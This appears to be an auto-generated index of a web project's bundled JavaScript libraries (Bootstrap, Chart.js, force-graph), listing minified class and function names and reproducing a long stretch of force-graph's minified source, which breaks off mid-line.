- `Nn` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*

**Functions:**
- `n` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `i` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `o` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `a` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `r` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `n` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `i` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `n` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `h` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `M` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*

#### `chart.min.js`
**Path:** `static/js/chart.min.js`
**File Doc:** *!*

**Classes:**
- `xt` (line 7) - *! Chart.js v4.5.1 https://www.chartjs.org (c) 2025 Chart.js Contributors Released under the MIT License*
- `Jt` (line 13)
- `de` (line 13)
- `hs` (line 13)
- `cs` (line 13)
- `Ss` (line 13)
- `As` (line 13)
- `Ts` (line 13)
- `js` (line 13)
- `tn` (line 13)
- `en` (line 13)
- `does` (line 13)
- `sn` (line 13)
- `on` (line 13)
- `_n` (line 13)
- `Tn` (line 13)
- `Rn` (line 13)
- `Yn` (line 13)
- `extends` (line 13)
- `extends` (line 13)
- `extends` (line 13)
- `extends` (line 13)
- `extends` (line 13)
- `extends` (line 13)
- `oo` (line 13)
- `extends` (line 13)
- `extends` (line 13)
- `extends` (line 13)
- `bo` (line 13)
- `_o` (line 13)
- `So` (line 13)
- `Ro` (line 13)
- `Ho` (line 13)
- `extends` (line 13)
- `extends` (line 13)
- `ca` (line 13)
- `ya` (line 13)
- `wa` (line 13)
- `Wa` (line 13)

**Functions:**
- `i` (line 7) - *! Chart.js v4.5.1 https://www.chartjs.org (c) 2025 Chart.js Contributors Released under the MIT License*
- `h` (line 7) - *! Chart.js v4.5.1 https://www.chartjs.org (c) 2025 Chart.js Contributors Released under the MIT License*
- `r` (line 7) - *! Chart.js v4.5.1 https://www.chartjs.org (c) 2025 Chart.js Contributors Released under the MIT License*
- `it` (line 7) - *! Chart.js v4.5.1 https://www.chartjs.org (c) 2025 Chart.js Contributors Released under the MIT License*
- `yt` (line 13)
- `e` (line 13)
- `s` (line 13)
- `ye` (line 13)
- `o` (line 13)
- `m` (line 13)
- `s` (line 13)
- `Ue` (line 13)
- `Ge` (line 13)
- `i` (line 13)
- `y` (line 13)
- `a` (line 13)
- `Xs` (line 13)
- `e` (line 13)
- `a` (line 13)
- `bn` (line 13)
- `a` (line 13)
- `l` (line 13)
- `o` (line 13)
- `e` (line 13)
- `t` (line 13)
- `p` (line 13)
- `e` (line 13)
- `s` (line 13)
- `a` (line 13)
- `e` (line 13)
- `s` (line 13)
- `s` (line 13)
- `_a` (line 13)
- `Se` (line 13)
- `s` (line 13)
- `r` (line 13)
- `i` (line 13)
- `e` (line 13)
- `d` (line 13)
- `s` (line 13)
- `e` (line 13)
- `n` (line 13)
- `o` (line 13)
- `s` (line 13)
- `n` (line 13)
- `o` (line 13)
- `y` (line 13)
- `g` (line 13)
- `p` (line 13)

#### `force-graph-1.43.5.min.js`
**Path:** `static/js/force-graph-1.43.5.min.js`
**File Doc:** *Version 1.43.5 force-graph - https://github.com/vasturiano/force-graph !function(t,n){"object"==typeof exports&&"undefined"!=typeof module?module.exports=n():"function"==typeof define&&define.amd?define(n):(t="undefined"!=typeof globalThis?globalThis:t||self).ForceGraph=n()}(this,(function(){"use strict";function n(t,n,r){if(e())return Reflect.construct.apply(null,arguments);var i=[null];i.push.apply(i,n);var o=new(t.bind.apply(t,i));return r&&s(o,r.prototype),o}function e(){try{var t=!Boolean.prototype.valueOf.call(Reflect.construct(Boolean,[],(function(){})))}catch(t){}return(e=function(){return!!t})()}function r(t,n){var e=Object.keys(t);if(Object.getOwnPropertySymbols){var r=Object.getOwnPropertySymbols(t);n&&(r=r.filter((function(n){return Object.getOwnPropertyDescriptor(t,n).enumerable}))),e.push.apply(e,r)}return e}function i(t){for(var n=1;n<arguments.length;n++){var e=null!=arguments[n]?arguments[n]:{};n%2?r(Object(e),!0).forEach((function(n){u(t,n,e[n])})):Object.getOwnPropertyDescriptors?Object.defineProperties(t,Object.getOwnPropertyDescriptors(e)):r(Object(e)).forEach((function(n){Object.defineProperty(t,n,Object.getOwnPropertyDescriptor(e,n))}))}return t}function o(t){var n=function(t,n){if("object"!=typeof t||!t)return t;var e=t[Symbol.toPrimitive];if(void 0!==e){var r=e.call(t,n||"default");if("object"!=typeof r)return r;throw new TypeError("@@toPrimitive must return a primitive value.")}return("string"===n?String:Number)(t)}(t,"string");return"symbol"==typeof n?n:String(n)}function a(t){return a="function"==typeof Symbol&&"symbol"==typeof Symbol.iterator?function(t){return typeof t}:function(t){return t&&"function"==typeof Symbol&&t.constructor===Symbol&&t!==Symbol.prototype?"symbol":typeof t},a(t)}function u(t,n,e){return(n=o(n))in t?Object.defineProperty(t,n,{value:e,enumerable:!0,configurable:!0,writable:!0}):t[n]=e,t}function s(t,n){return s=Object.setPrototypeOf?Object.setPrototypeOf.bind():function(t,n){return t.__proto__=n,t},s(t,n)}function l(t,n){return function(t){if(Array.isArray(t))return t}(t)||function(t,n){var e=null==t?null:"undefined"!=typeof Symbol&&t[Symbol.iterator]||t["@@iterator"];if(null!=e){var r,i,o,a,u=[],s=!0,l=!1;try{if(o=(e=e.call(t)).next,0===n){if(Object(e)!==e)return;s=!1}else for(;!(s=(r=o.call(e)).done)&&(u.push(r.value),u.length!==n);s=!0);}catch(t){l=!0,i=t}finally{try{if(!s&&null!=e.return&&(a=e.return(),Object(a)!==a))return}finally{if(l)throw i}}return u}}(t,n)||h(t,n)||function(){throw new TypeError("Invalid attempt to destructure non-iterable instance.\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.")}()}function c(t){return function(t){if(Array.isArray(t))return f(t)}(t)||function(t){if("undefined"!=typeof Symbol&&null!=t[Symbol.iterator]||null!=t["@@iterator"])return Array.from(t)}(t)||h(t)||function(){throw new TypeError("Invalid attempt to spread non-iterable instance.\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.")}()}function h(t,n){if(t){if("string"==typeof t)return f(t,n);var e=Object.prototype.toString.call(t).slice(8,-1);return"Object"===e&&t.constructor&&(e=t.constructor.name),"Map"===e||"Set"===e?Array.from(t):"Arguments"===e||/^(?:Ui|I)nt(?:8|16|32)(?:Clamped)?Array$/.test(e)?f(t,n):void 0}}function f(t,n){(null==n||n>t.length)&&(n=t.length);for(var e=0,r=new Array(n);e<n;e++)r[e]=t[e];return r}!function(t,n){void 0===n&&(n={});var e=n.insertAt;if(t&&"undefined"!=typeof document){var r=document.head||document.getElementsByTagName("head")[0],i=document.createElement("style");i.type="text/css","top"===e&&r.firstChild?r.insertBefore(i,r.firstChild):r.appendChild(i),i.styleSheet?i.styleSheet.cssText=t:i.appendChild(document.createTextNode(t))}}(".force-graph-container canvas {\n  display: block;\n  user-select: none;\n  outline: none;\n  -webkit-tap-highlight-color: transparent;\n}\n\n.force-graph-container .graph-tooltip {\n  position: absolute;\n  top: 0;\n  font-family: sans-serif;\n  font-size: 16px;\n  padding: 4px;\n  border-radius: 3px;\n  color: #eee;\n  background: rgba(0,0,0,0.65);\n  visibility: hidden; /* by default */\n}\n\n.force-graph-container .clickable {\n  cursor: pointer;\n}\n\n.force-graph-container .grabbable {\n  cursor: move;\n  cursor: grab;\n  cursor: -moz-grab;\n  cursor: -webkit-grab;\n}\n\n.force-graph-container .grabbable:active {\n  cursor: grabbing;\n  cursor: -moz-grabbing;\n  cursor: -webkit-grabbing;\n}\n");var d="http://www.w3.org/1999/xhtml",p={svg:"http://www.w3.org/2000/svg",xhtml:d,xlink:"http://www.w3.org/1999/xlink",xml:"http://www.w3.org/XML/1998/namespace",xmlns:"http://www.w3.org/2000/xmlns/"};function g(t){var n=t+="",e=n.indexOf(":");return e>=0&&"xmlns"!==(n=t.slice(0,e))&&(t=t.slice(e+1)),p.hasOwnProperty(n)?{space:p[n],local:t}:t}function y(t){return function(){var n=this.ownerDocument,e=this.namespaceURI;return e===d&&n.documentElement.namespaceURI===d?n.createElement(t):n.createElementNS(e,t)}}function v(t){return function(){return this.ownerDocument.createElementNS(t.space,t.local)}}function _(t){var n=g(t);return(n.local?v:y)(n)}function m(){}function x(t){return null==t?m:function(){return this.querySelector(t)}}function b(){return[]}function w(t){return null==t?b:function(){return this.querySelectorAll(t)}}function k(t){return function(){return function(t){return null==t?[]:Array.isArray(t)?t:Array.from(t)}(t.apply(this,arguments))}}function M(t){return function(){return this.matches(t)}}function z(t){return function(n){return n.matches(t)}}var A=Array.prototype.find;function S(){return this.firstElementChild}var C=Array.prototype.filter;function E(){return Array.from(this.children)}function O(t){return new Array(t.length)}function N(t,n){this.ownerDocument=t.ownerDocument,this.namespaceURI=t.namespaceURI,this._next=null,this._parent=t,this.__data__=n}function P(t,n,e,r,i,o){for(var a,u=0,s=n.length,l=o.length;u<l;++u)(a=n[u])?(a.__data__=o[u],r[u]=a):e[u]=new N(t,o[u]);for(;u<s;++u)(a=n[u])&&(i[u]=a)}function j(t,n,e,r,i,o,a){var u,s,l,c=new Map,h=n.length,f=o.length,d=new Array(h);for(u=0;u<h;++u)(s=n[u])&&(d[u]=l=a.call(s,s.__data__,u,n)+"",c.has(l)?i[u]=s:c.set(l,s));for(u=0;u<f;++u)l=a.call(t,o[u],u,o)+"",(s=c.get(l))?(r[u]=s,s.__data__=o[u],c.delete(l)):e[u]=new N(t,o[u]);for(u=0;u<h;++u)(s=n[u])&&c.get(d[u])===s&&(i[u]=s)}function T(t){return t.__data__}function R(t){return"object"==typeof t&&"length"in t?t:Array.from(t)}function D(t,n){return t<n?-1:t>n?1:t>=n?0:NaN}function I(t){return function(){this.removeAttribute(t)}}function U(t){return function(){this.removeAttributeNS(t.space,t.local)}}function F(t,n){return function(){this.setAttribute(t,n)}}function L(t,n){return function(){this.setAttributeNS(t.space,t.local,n)}}function q(t,n){return function(){var e=n.apply(this,arguments);null==e?this.removeAttribute(t):this.setAttribute(t,e)}}function B(t,n){return function(){var e=n.apply(this,arguments);null==e?this.removeAttributeNS(t.space,t.local):this.setAttributeNS(t.space,t.local,e)}}function $(t){return t.ownerDocument&&t.ownerDocument.defaultView||t.document&&t||t.defaultView}function H(t){return function(){this.style.removeProperty(t)}}function V(t,n,e){return function(){this.style.setProperty(t,n,e)}}function X(t,n,e){return function(){var r=n.apply(this,arguments);null==r?this.style.removeProperty(t):this.style.setProperty(t,r,e)}}function G(t,n){return t.style.getPropertyValue(n)||$(t).getComputedStyle(t,null).getPropertyValue(n)}function Y(t){return function(){delete this[t]}}function W(t,n){return function(){this[t]=n}}function Z(t,n){return function(){var e=n.apply(this,arguments);null==e?delete this[t]:this[t]=e}}function Q(t){return t.trim().split(/^|\s+/)}function K(t){return t.classList||new J(t)}function J(t){this._node=t,this._names=Q(t.getAttribute("class")||"")}function tt(t,n){for(var e=K(t),r=-1,i=n.length;++r<i;)e.add(n[r])}function nt(t,n){for(var e=K(t),r=-1,i=n.length;++r<i;)e.remove(n[r])}function et(t){return function(){tt(this,t)}}function rt(t){return function(){nt(this,t)}}function it(t,n){return function(){(n.apply(this,arguments)?tt:nt)(this,t)}}function ot(){this.textContent=""}function at(t){return function(){this.textContent=t}}function ut(t){return function(){var n=t.apply(this,arguments);this.textContent=null==n?"":n}}function st(){this.innerHTML=""}function lt(t){return function(){this.innerHTML=t}}function ct(t){return function(){var n=t.apply(this,arguments);this.innerHTML=null==n?"":n}}function ht(){this.nextSibling&&this.parentNode.appendChild(this)}function ft(){this.previousSibling&&this.parentNode.insertBefore(this,this.parentNode.firstChild)}function dt(){return null}function pt(){var t=this.parentNode;t&&t.removeChild(this)}function gt(){var t=this.cloneNode(!1),n=this.parentNode;return n?n.insertBefore(t,this.nextSibling):t}function yt(){var t=this.cloneNode(!0),n=this.parentNode;return n?n.insertBefore(t,this.nextSibling):t}function vt(t){return function(){var n=this.__on;if(n){for(var e,r=0,i=-1,o=n.length;r<o;++r)e=n[r],t.type&&e.type!==t.type||e.name!==t.name?n[++i]=e:this.removeEventListener(e.type,e.listener,e.options);++i?n.length=i:delete this.__on}}}function _t(t,n,e){return function(){var r,i=this.__on,o=function(t){return function(n){t.call(this,n,this.__data__)}}(n);if(i)for(var a=0,u=i.length;a<u;++a)if((r=i[a]).type===t.type&&r.name===t.name)return this.removeEventListener(r.type,r.listener,r.options),this.addEventListener(r.type,r.listener=o,r.options=e),void(r.value=n);this.addEventListener(t.type,o,e),r={type:t.type,name:t.name,value:n,listener:o,options:e},i?i.push(r):this.__on=[r]}}function mt(t,n,e){var r=$(t),i=r.CustomEvent;"function"==typeof i?i=new i(n,e):(i=r.document.createEvent("Event"),e?(i.initEvent(n,e.bubbles,e.cancelable),i.detail=e.detail):i.initEvent(n,!1,!1)),t.dispatchEvent(i)}function xt(t,n){return function(){return mt(this,t,n)}}function bt(t,n){return function(){return mt(this,t,n.apply(this,arguments))}}N.prototype={constructor:N,appendChild:function(t){return this._parent.insertBefore(t,this._next)},insertBefore:function(t,n){return this._parent.insertBefore(t,n)},querySelector:function(t){return this._parent.querySelector(t)},querySelectorAll:function(t){return this._parent.querySelectorAll(t)}},J.prototype={add:function(t){this._names.indexOf(t)<0&&(this._names.push(t),this._node.setAttribute("class",this._names.join(" ")))},remove:function(t){var n=this._names.indexOf(t);n>=0&&(this._names.splice(n,1),this._node.setAttribute("class",this._names.join(" ")))},contains:function(t){return this._names.indexOf(t)>=0}};var wt=[null];function kt(t,n){this._groups=t,this._parents=n}function Mt(){return new kt([[document.documentElement]],wt)}function zt(t){return"string"==typeof t?new kt([[document.querySelector(t)]],[document.documentElement]):new kt([[t]],wt)}function At(t,n){if(t=function(t){let n;for(;n=t.sourceEvent;)t=n;return t}(t),void 0===n&&(n=t.currentTarget),n){var e=n.ownerSVGElement||n;if(e.createSVGPoint){var r=e.createSVGPoint();return r.x=t.clientX,r.y=t.clientY,[(r=r.matrixTransform(n.getScreenCTM().inverse())).x,r.y]}if(n.getBoundingClientRect){var i=n.getBoundingClientRect();return[t.clientX-i.left-n.clientLeft,t.clientY-i.top-n.clientTop]}}return[t.pageX,t.pageY]}kt.prototype=Mt.prototype={constructor:kt,select:function(t){"function"!=typeof t&&(t=x(t));for(var n=this._groups,e=n.length,r=new Array(e),i=0;i<e;++i)for(var o,a,u=n[i],s=u.length,l=r[i]=new Array(s),c=0;c<s;++c)(o=u[c])&&(a=t.call(o,o.__data__,c,u))&&("__data__"in o&&(a.__data__=o.__data__),l[c]=a);return new kt(r,this._parents)},selectAll:function(t){t="function"==typeof t?k(t):w(t);for(var n=this._groups,e=n.length,r=[],i=[],o=0;o<e;++o)for(var a,u=n[o],s=u.length,l=0;l<s;++l)(a=u[l])&&(r.push(t.call(a,a.__data__,l,u)),i.push(a));return new kt(r,i)},selectChild:function(t){return this.select(null==t?S:function(t){return function(){return A.call(this.children,t)}}("function"==typeof t?t:z(t)))},selectChildren:function(t){return this.selectAll(null==t?E:function(t){return function(){return C.call(this.children,t)}}("function"==typeof t?t:z(t)))},filter:function(t){"function"!=typeof t&&(t=M(t));for(var n=this._groups,e=n.length,r=new Array(e),i=0;i<e;++i)for(var o,a=n[i],u=a.length,s=r[i]=[],l=0;l<u;++l)(o=a[l])&&t.call(o,o.__data__,l,a)&&s.push(o);return new kt(r,this._parents)},data:function(t,n){if(!arguments.length)return Array.from(this,T);var e=n?j:P,r=this._parents,i=this._groups;"function"!=typeof t&&(t=function(t){return function(){return t}}(t));for(var o=i.length,a=new Array(o),u=new Array(o),s=new Array(o),l=0;l<o;++l){var c=r[l],h=i[l],f=h.length,d=R(t.call(c,c&&c.__data__,l,r)),p=d.length,g=u[l]=new Array(p),y=a[l]=new Array(p);e(c,h,g,y,s[l]=new Array(f),d,n);for(var v,_,m=0,x=0;m<p;++m)if(v=g[m]){for(m>=x&&(x=m+1);!(_=y[x])&&++x<p;);v._next=_||null}}return(a=new kt(a,r))._enter=u,a._exit=s,a},enter:function(){return new kt(this._enter||this._groups.map(O),this._parents)},exit:function(){return new kt(this._exit||this._groups.map(O),this._parents)},join:function(t,n,e){var r=this.enter(),i=this,o=this.exit();return"function"==typeof t?(r=t(r))&&(r=r.selection()):r=r.append(t+""),null!=n&&(i=n(i))&&(i=i.selection()),null==e?o.remove():e(o),r&&i?r.merge(i).order():i},merge:function(t){for(var n=t.selection?t.selection():t,e=this._groups,r=n._groups,i=e.length,o=r.length,a=Math.min(i,o),u=new Array(i),s=0;s<a;++s)for(var l,c=e[s],h=r[s],f=c.length,d=u[s]=new Array(f),p=0;p<f;++p)(l=c[p]||h[p])&&(d[p]=l);for(;s<i;++s)u[s]=e[s];return new kt(u,this._parents)},selection:function(){return this},order:function(){for(var t=this._groups,n=-1,e=t.length;++n<e;)for(var r,i=t[n],o=i.length-1,a=i[o];--o>=0;)(r=i[o])&&(a&&4^r.compareDocumentPosition(a)&&a.parentNode.insertBefore(r,a),a=r);return this},sort:function(t){function n(n,e){return n&&e?t(n.__data__,e.__data__):!n-!e}t||(t=D);for(var e=this._groups,r=e.length,i=new Array(r),o=0;o<r;++o){for(var a,u=e[o],s=u.length,l=i[o]=new Array(s),c=0;c<s;++c)(a=u[c])&&(l[c]=a);l.sort(n)}return new kt(i,this._parents).order()},call:function(){var t=arguments[0];return arguments[0]=this,t.apply(null,arguments),this},nodes:function(){return Array.from(this)},node:function(){for(var t=this._groups,n=0,e=t.length;n<e;++n)for(var r=t[n],i=0,o=r.length;i<o;++i){var a=r[i];if(a)return a}return null},size:function(){let t=0;for(const n of this)++t;return t},empty:function(){return!this.node()},each:function(t){for(var n=this._groups,e=0,r=n.length;e<r;++e)for(var i,o=n[e],a=0,u=o.length;a<u;++a)(i=o[a])&&t.call(i,i.__data__,a,o);return this},attr:function(t,n){var e=g(t);if(arguments.length<2){var r=this.node();return e.local?r.getAttributeNS(e.space,e.local):r.getAttribute(e)}return this.each((null==n?e.local?U:I:"function"==typeof n?e.local?B:q:e.local?L:F)(e,n))},style:function(t,n,e){return arguments.length>1?this.each((null==n?H:"function"==typeof n?X:V)(t,n,null==e?"":e)):G(this.node(),t)},property:function(t,n){return arguments.length>1?this.each((null==n?Y:"function"==typeof n?Z:W)(t,n)):this.node()[t]},classed:function(t,n){var e=Q(t+"");if(arguments.length<2){for(var r=K(this.node()),i=-1,o=e.length;++i<o;)if(!r.contains(e[i]))return!1;return!0}return this.each(("function"==typeof n?it:n?et:rt)(e,n))},text:function(t){return arguments.length?this.each(null==t?ot:("function"==typeof t?ut:at)(t)):this.node().textContent},html:function(t){return arguments.length?this.each(null==t?st:("function"==typeof t?ct:lt)(t)):this.node().innerHTML},raise:function(){return this.each(ht)},lower:function(){return this.each(ft)},append:function(t){var n="function"==typeof t?t:_(t);return this.select((function(){return this.appendChild(n.apply(this,arguments))}))},insert:function(t,n){var e="function"==typeof t?t:_(t),r=null==n?dt:"function"==typeof n?n:x(n);return this.select((function(){return this.insertBefore(e.apply(this,arguments),r.apply(this,arguments)||null)}))},remove:function(){return this.each(pt)},clone:function(t){return this.select(t?yt:gt)},datum:function(t){return arguments.length?this.property("__data__",t):this.node().__data__},on:function(t,n,e){var r,i,o=function(t){return t.trim().split(/^|\s+/).map((function(t){var n="",e=t.indexOf(".");return e>=0&&(n=t.slice(e+1),t=t.slice(0,e)),{type:t,name:n}}))}(t+""),a=o.length;if(!(arguments.length<2)){for(u=n?_t:vt,r=0;r<a;++r)this.each(u(o[r],n,e));return this}var u=this.node().__on;if(u)for(var s,l=0,c=u.length;l<c;++l)for(r=0,s=u[l];r<a;++r)if((i=o[r]).type===s.type&&i.name===s.name)return s.value},dispatch:function(t,n){return this.each(("function"==typeof n?bt:xt)(t,n))},[Symbol.iterator]:function*(){for(var t=this._groups,n=0,e=t.length;n<e;++n)for(var r,i=t[n],o=0,a=i.length;o<a;++o)(r=i[o])&&(yield r)}};var St={value:()=>{}};function Ct(){for(var t,n=0,e=arguments.length,r={};n<e;++n){if(!(t=arguments[n]+"")||t in r||/[\s.]/.test(t))throw new Error("illegal type: "+t);r[t]=[]}return new Et(r)}function Et(t){this._=t}function Ot(t,n){for(var e,r=0,i=t.length;r<i;++r)if((e=t[r]).name===n)return e.value}function Nt(t,n,e){for(var r=0,i=t.length;r<i;++r)if(t[r].name===n){t[r]=St,t=t.slice(0,r).concat(t.slice(r+1));break}return null!=e&&t.push({name:n,value:e}),t}Et.prototype=Ct.prototype={constructor:Et,on:function(t,n){var e,r,i=this._,o=(r=i,(t+"").trim().split(/^|\s+/).map((function(t){var n="",e=t.indexOf(".");if(e>=0&&(n=t.slice(e+1),t=t.slice(0,e)),t&&!r.hasOwnProperty(t))throw new Error("unknown type: "+t);return{type:t,name:n}}))),a=-1,u=o.length;if(!(arguments.length<2)){if(null!=n&&"function"!=typeof n)throw new Error("invalid callback: "+n);for(;++a<u;)if(e=(t=o[a]).type)i[e]=Nt(i[e],t.name,n);else if(null==n)for(e in i)i[e]=Nt(i[e],t.name,null);return this}for(;++a<u;)if((e=(t=o[a]).type)&&(e=Ot(i[e],t.name)))return e},copy:function(){var t={},n=this._;for(var e in n)t[e]=n[e].slice();return new Et(t)},call:function(t,n){if((e=arguments.length-2)>0)for(var e,r,i=new Array(e),o=0;o<e;++o)i[o]=arguments[o+2];if(!this._.hasOwnProperty(t))throw new Error("unknown type: "+t);for(o=0,e=(r=this._[t]).length;o<e;++o)r[o].value.apply(n,i)},apply:function(t,n,e){if(!this._.hasOwnProperty(t))throw new Error("unknown type: "+t);for(var r=this._[t],i=0,o=r.length;i<o;++i)r[i].value.apply(n,e)}};const Pt={passive:!1},jt={capture:!0,passive:!1};function Tt(t){t.stopImmediatePropagation()}function Rt(t){t.preventDefault(),t.stopImmediatePropagation()}function Dt(t){var n=t.document.documentElement,e=zt(t).on("dragstart.drag",Rt,jt);"onselectstart"in n?e.on("selectstart.drag",Rt,jt):(n.__noselect=n.style.MozUserSelect,n.style.MozUserSelect="none")}function It(t,n){var e=t.document.documentElement,r=zt(t).on("dragstart.drag",null);n&&(r.on("click.drag",Rt,jt),setTimeout((function(){r.on("click.drag",null)}),0)),"onselectstart"in e?r.on("selectstart.drag",null):(e.style.MozUserSelect=e.__noselect,delete e.__noselect)}var Ut=t=>()=>t;function Ft(t,{sourceEvent:n,subject:e,target:r,identifier:i,active:o,x:a,y:u,dx:s,dy:l,dispatch:c}){Object.defineProperties(this,{type:{value:t,enumerable:!0,configurable:!0},sourceEvent:{value:n,enumerable:!0,configurable:!0},subject:{value:e,enumerable:!0,configurable:!0},target:{value:r,enumerable:!0,configurable:!0},identifier:{value:i,enumerable:!0,configurable:!0},active:{value:o,enumerable:!0,configurable:!0},x:{value:a,enumerable:!0,configurable:!0},y:{value:u,enumerable:!0,configurable:!0},dx:{value:s,enumerable:!0,configurable:!0},dy:{value:l,enumerable:!0,configurable:!0},_:{value:c}})}function Lt(t){return!t.ctrlKey&&!t.button}function qt(){return this.parentNode}function Bt(t,n){return null==n?{x:t.x,y:t.y}:n}function $t(){return navigator.maxTouchPoints||"ontouchstart"in this}function Ht(t,n,e){t.prototype=n.prototype=e,e.constructor=t}function Vt(t,n){var e=Object.create(t.prototype);for(var r in n)e[r]=n[r];return e}function Xt(){}Ft.prototype.on=function(){var t=this._.on.apply(this._,arguments);return t===this._?this:t};var Gt=.7,Yt=1/Gt,Wt="\\s*([+-]?\\d+)\\s*",Zt="\\s*([+-]?(?:\\d*\\.)?\\d+(?:[eE][+-]?\\d+)?)\\s*",Qt="\\s*([+-]?(?:\\d*\\.)?\\d+(?:[eE][+-]?\\d+)?)%\\s*",Kt=/^#([0-9a-f]{3,8})$/,Jt=new RegExp(`^rgb\\(${Wt},${Wt},${Wt}\\)$`),tn=new RegExp(`^rgb\\(${Qt},${Qt},${Qt}\\)$`),nn=new RegExp(`^rgba\\(${Wt},${Wt},${Wt},${Zt}\\)$`),en=new RegExp(`^rgba\\(${Qt},${Qt},${Qt},${Zt}\\)$`),rn=new RegExp(`^hsl\\(${Zt},${Qt},${Qt}\\)$`),on=new RegExp(`^hsla\\(${Zt},${Qt},${Qt},${Zt}\\)$`),an={aliceblue:15792383,antiquewhite:16444375,aqua:65535,aquamarine:8388564,azure:15794175,beige:16119260,bisque:16770244,black:0,blanchedalmond:16772045,blue:255,blueviolet:9055202,brown:10824234,burlywood:14596231,cadetblue:6266528,chartreuse:8388352,chocolate:13789470,coral:16744272,cornflowerblue:6591981,cornsilk:16775388,crimson:14423100,cyan:65535,darkblue:139,darkcyan:35723,darkgoldenrod:12092939,darkgray:11119017,darkgreen:25600,darkgrey:11119017,darkkhaki:12433259,darkmagenta:9109643,darkolivegreen:5597999,darkorange:16747520,darkorchid:10040012,darkred:9109504,darksalmon:15308410,darkseagreen:9419919,darkslateblue:4734347,darkslategray:3100495,darkslategrey:3100495,darkturquoise:52945,darkviolet:9699539,deeppink:16716947,deepskyblue:49151,dimgray:6908265,dimgrey:6908265,dodgerblue:2003199,firebrick:11674146,floralwhite:16775920,forestgreen:2263842,fuchsia:16711935,gainsboro:14474460,ghostwhite:16316671,gold:16766720,goldenrod:14329120,gray:8421504,green:32768,greenyellow:11403055,grey:8421504,honeydew:15794160,hotpink:16738740,indianred:13458524,indigo:4915330,ivory:16777200,khaki:15787660,lavender:15132410,lavenderblush:16773365,lawngreen:8190976,lemonchiffon:16775885,lightblue:11393254,lightcoral:15761536,lightcyan:14745599,lightgoldenrodyellow:16448210,lightgray:13882323,lightgreen:9498256,lightgrey:13882323,lightpink:16758465,lightsalmon:16752762,lightseagreen:2142890,lightskyblue:8900346,lightslategray:7833753,lightslategrey:7833753,lightsteelblue:11584734,lightyellow:16777184,lime:65280,limegreen:3329330,linen:16445670,magenta:16711935,maroon:8388608,mediumaquamarine:6737322,mediumblue:205,mediumorchid:12211667,mediumpurple:9662683,mediumseagreen:3978097,mediumslateblue:8087790,mediumspringgreen:64154,mediumturquoise:4772300,mediumvioletred:13047173,midnightblue:1644912,mintcream:16121850,mistyrose:16770273,moccasin:16770229,navajowhite:16768685,navy:128,oldlace:16643558,olive:8421376,olivedrab:7048739,orange:16753920,orangered:16729344,orchid:14315734,palegoldenrod:15657130,palegreen:10025880,paleturquoise:11529966,palevioletred:14381203,papayawhip:16773077,peachpuff:16767673,peru:13468991,pink:16761035,plum:14524637,powderblue:11591910,purple:8388736,rebeccapurple:6697881,red:16711680,rosybrown:12357519,royalblue:4286945,saddlebrown:9127187,salmon:16416882,sandybrown:16032864,seagreen:3050327,seashell:16774638,sienna:10506797,silver:12632256,skyblue:8900331,slateblue:6970061,slategray:7372944,slategrey:7372944,snow:16775930,springgreen:65407,steelblue:4620980,tan:13808780,teal:32896,thistle:14204888,tomato:16737095,turquoise:4251856,violet:15631086,wheat:16113331,white:16777215,whitesmoke:16119285,yellow:16776960,yellowgreen:10145074};function un(){return this.rgb().formatHex()}function sn(){return this.rgb().formatRgb()}function ln(t){var n,e;return t=(t+"").trim().toLowerCase(),(n=Kt.exec(t))?(e=n[1].length,n=parseInt(n[1],16),6===e?cn(n):3===e?new dn(n>>8&15|n>>4&240,n>>4&15|240&n,(15&n)<<4|15&n,1):8===e?hn(n>>24&255,n>>16&255,n>>8&255,(255&n)/255):4===e?hn(n>>12&15|n>>8&240,n>>8&15|n>>4&240,n>>4&15|240&n,((15&n)<<4|15&n)/255):null):(n=Jt.exec(t))?new dn(n[1],n[2],n[3],1):(n=tn.exec(t))?new 